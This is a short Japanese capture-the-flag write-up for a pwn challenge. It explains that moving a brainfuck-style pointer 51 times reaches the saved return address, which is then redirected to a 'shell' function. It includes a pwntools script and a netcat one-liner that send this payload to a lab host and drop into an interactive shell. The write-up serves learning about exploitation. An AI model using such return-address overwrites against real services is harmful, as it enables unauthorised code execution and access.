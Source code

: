 # ポイント

- ほぼリバーシング。気合い。
  => switch文を丁寧に追えば、なんとかやってることは分かる。
- 書き換えるアドレス
  => 入力する最初のアドレスが `ebp-0xC8` なので `>` を51回入力してやれば `ebp + 0x4` のリターンアドレスに到達する。
- 飛ばす先
  => shellという関数があるので、そのアドレスに飛ばせば良い。



# 解法

```python
from pwn import *
rhp = {'host': '192.168.33.20', 'port':1234}

conn = remote(rhp['host'], rhp['port'])

res = conn.recv()
log.info(res)
payload = ">" * 51 + "-" * 47

conn.sendline(payload)
conn.interactive()

```

これくらないならワンライナーでも。

```
(python -c 'print(">" * 51 + "-" * 47)'; cat -) | nc 192.168.33.20 1234
```







